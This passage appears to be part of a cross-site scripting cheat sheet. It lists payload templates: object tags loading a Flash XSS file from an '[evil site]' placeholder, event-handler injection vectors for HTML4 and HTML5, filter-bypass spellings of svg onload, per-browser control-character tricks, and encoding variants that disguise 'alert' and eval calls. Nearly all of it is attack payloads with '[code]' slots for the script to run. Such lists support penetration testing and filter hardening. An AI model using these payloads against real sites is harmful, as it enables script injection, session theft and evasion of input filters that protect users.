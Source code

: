 EvilCos (download [here](https://github.com/evilcos/xss.swf)):
```html
<object data="[evil site]/xss.wfs">
<object data="[evil site]/xss.wfs" allowscriptaccess="always">
```

### Events
Common HTML 4:
```html
<body onload="[code]">
<input type="image" src="x" onerror="[code]">
<isindex onmouseover="[code]">
<form oninput="[code]"><input></form>
<textarea autofocus onfocus="[code]">
<input oncut="[code]">
```

Common HTML 5:
```html
<svg onload="[code]">
<keygen autofocus onfocus="[code]">
<video><source onerror="[code]">
<marquee onstart="[code]">
```

Filter Bypass:
```html
<svg/onload=...>
<svg///////onload=...>
<svg id="x";onload=...>
<svg id=x;onload=...>
<svg id=`x`onload=...>
```

Control characters:
```html
<svg onload%09=...>
<svg %09onload=...>
<svg %09onload%20=...>
<svg onload%09%20%28%2c%3b=...>
<svg onload%0b=...>
```

List of control characters:
```html
%09 %0b %0c %20 %3b  # Internet Explorer
%09 %20 %28 %2c %3b  # Google Chrome
%2c %3b  # Safari
%09 %20 %28 %2c %3b  # Firefox
%09 %20 %2c %3b  # Opera
%09 %20 %28 %2c %3b  # Android
```

### Keywords
#### Bypass by Encoding
```javascript
alert
\u0061lert
&#x0061lert
&#97lert

// Encoding formats below require the input to be in a string
eval('\141lert')
eval('\x61lert')

// Useless escape characters
eval('\a\l\e\rt(\1\)')
```